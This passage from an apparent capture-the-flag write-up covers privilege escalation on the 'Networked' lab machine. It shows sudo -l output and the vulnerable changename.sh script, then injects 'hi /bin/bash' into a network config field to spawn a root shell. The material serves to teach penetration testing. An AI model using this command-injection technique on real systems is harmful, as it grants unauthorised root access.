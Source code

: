 ### Privilege Escalation

Running `sudo -l` we see guly can run something called changename.sh with elevated permissions:

```
[guly@networked ~]$ sudo -l
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
```

Lets look at the bash script:

```bash
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
	echo "interface $var:"
	read x
	while [[ ! $x =~ $regexp ]]; do
		echo "wrong input, try again"
		echo "interface $var:"
		read x
	done
	echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done
  
/sbin/ifup guly0
```

Looks like we can also try command injection here as well. Lets feed dummy data into the requests while also tying to spawn `/bin/bash` as root:

```
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh              
interface NAME:
hi /bin/bash
interface PROXY_METHOD:
hi
interface BROWSER_ONLY:
hi
interface BOOTPROTO:
hi
[root@networked network-scripts]# whoami
root
```
